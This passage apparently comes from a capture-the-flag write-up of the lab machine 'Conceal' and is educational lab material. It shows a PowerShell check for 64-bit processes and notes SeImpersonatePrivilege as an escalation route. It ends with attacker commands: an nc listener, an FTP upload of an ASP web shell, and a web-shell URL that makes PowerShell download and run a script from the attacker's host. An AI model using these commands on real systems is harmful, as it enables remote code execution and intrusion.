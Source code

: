 ```cmd
whoami
hostname
```

<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Before I start enumerating the compromised system, I **[check that the OS architecture and the process are 64-bit](https://stackoverflow.com/questions/61396435/how-do-i-check-the-os-architecture32-or-64-bit-using-powershell){:target="_blank"}**, unfortunately the latter is not. I'm going to have to perform the attack again to obtain a **64-bit** process, for this I modify the malicious command that I execute with the web shell in the browser, to indicate the absolute path of the `powershell.exe` v1.0 binary. Now I do get a shell under a **64-bit** process and with the first enumeration command I find a possible vector to **Escalate privileges**, since I have the **SeImpersonatePrivilege permission** enabled.

> **Victime Machine**:

```cmd
[Environment]::Is64BitOperatingSystem     # :)
[Environment]::Is64BitProcess             # :( False
```

> **Attacker Machine**:

```bash
python3 -m http.server 80
rlwrap -cAr nc -nlvp 443
ftp 10.10.10.116 21
  ftp> put oldboy_shell.asp

# http://10.10.10.116/upload/oldboy_shell.asp?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe%20IEX(New-Object%20Net.WebClient).downloadString(%27http://10.10.14.14/PS.ps1%27)
```
